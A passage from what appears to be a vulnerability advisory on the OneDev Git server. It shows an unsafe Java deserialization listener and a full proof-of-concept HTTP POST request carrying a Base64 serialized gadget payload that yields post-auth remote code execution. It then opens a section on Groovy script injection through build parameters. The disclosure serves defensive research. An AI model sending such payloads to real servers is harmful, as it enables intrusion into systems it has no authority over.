     <span class="kt">byte</span><span class="o">[]</span> <span class="n">bytes</span> <span class="o">=</span> <span class="nc">Base64</span><span class="o">.</span><span class="na">decodeBase64</span><span class="o">(</span><span class="n">encodedData</span><span class="o">.</span><span class="na">getBytes</span><span class="o">());</span>
    <span class="nc">Serializable</span> <span class="n">data</span> <span class="o">=</span> <span class="o">(</span><span class="nc">Serializable</span><span class="o">)</span> <span class="nc">SerializationUtils</span><span class="o">.</span><span class="na">deserialize</span><span class="o">(</span><span class="n">bytes</span><span class="o">);</span>
    <span class="n">onPopState</span><span class="o">(</span><span class="n">target</span><span class="o">,</span> <span class="n">data</span><span class="o">);</span>
    <span class="n">target</span><span class="o">.</span><span class="na">appendJavaScript</span><span class="o">(</span><span class="s">"onedev.server.viewState.getFromHistoryAndSetToView();"</span><span class="o">);</span>
  <span class="o">}</span>
</code></pre></div></div>

<p>We can access this listener by submitting a POST request to any page. e.g.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST /projects/my-app/blob?7-1.IBehaviorListener.0- HTTP/1.1
Host: localhost:6610
Content-Length: 389
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Wicket-Ajax-BaseURL: projects/my-app/blob
Wicket-Ajax: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:6610
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:6610/projects/my-app/blob
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: JSESSIONID=node0cq7tdfxnza2v1nb58f7zwg7jj6.node0
Connection: close

data=rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3OAAKVW5pY2FzdFJlZgAPdG91Y2ggL3RtcC9mb29vAACFE//////C/CKmAAAAAAAAAAAAAAAAAAAAeA==
</code></pre></div></div>

<p>This endpoint is subject to authentication and, therefore, requires a valid user to carry on the attack.</p>

<h4 id="impact-5">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">post-auth RCE</code></p>

<h3 id="issue-7-post-auth-arbitrary-code-execution-via-groovy-script-injection">Issue 7: Post-Auth Arbitrary Code execution via Groovy script injection</h3>
<p><a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/model/support/inputspec/InputSpec.java"><code class="language-plaintext highlighter-rouge">InputSpec</code></a> is used to define parameters of a Build spec.
It does so by using <a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/model/support/inputspec/InputSpec.java#L209">dynamically generated Groovy classes</a>. A user able to control job parameters can run arbitrary code on OneDev’s server by injecting arbitrary Groovy code.</p>
